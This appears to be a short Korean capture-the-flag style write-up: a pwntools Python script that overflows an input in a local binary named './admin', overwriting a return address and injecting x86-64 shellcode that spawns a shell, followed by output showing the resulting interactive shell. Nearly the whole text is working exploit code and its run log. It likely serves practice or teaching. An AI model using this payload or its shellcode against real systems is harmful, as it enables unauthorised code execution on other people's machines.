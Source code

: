 ```python
from pwn import*

p = process("./admin")

p.recvuntil(">")
p.sendline("1")

p.recvuntil("ID: ")
p.sendline("admin")

p.recvuntil("Password: ")

payload = "admin!AA"
payload += p64(0x6010a0 + 17)
payload += "\x90"*6
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\
             \x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\
             \x57\x54\x5e\xb0\x3b\x0f\x05"
payload += shellcode

p.sendline(payload)

p.recvuntil("-7")

p.interactive()
```
##### 결과
```
secretpack@ubuntu:~/Desktop$ python exp.py
[+] Starting local process './admin': pid 128115
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```
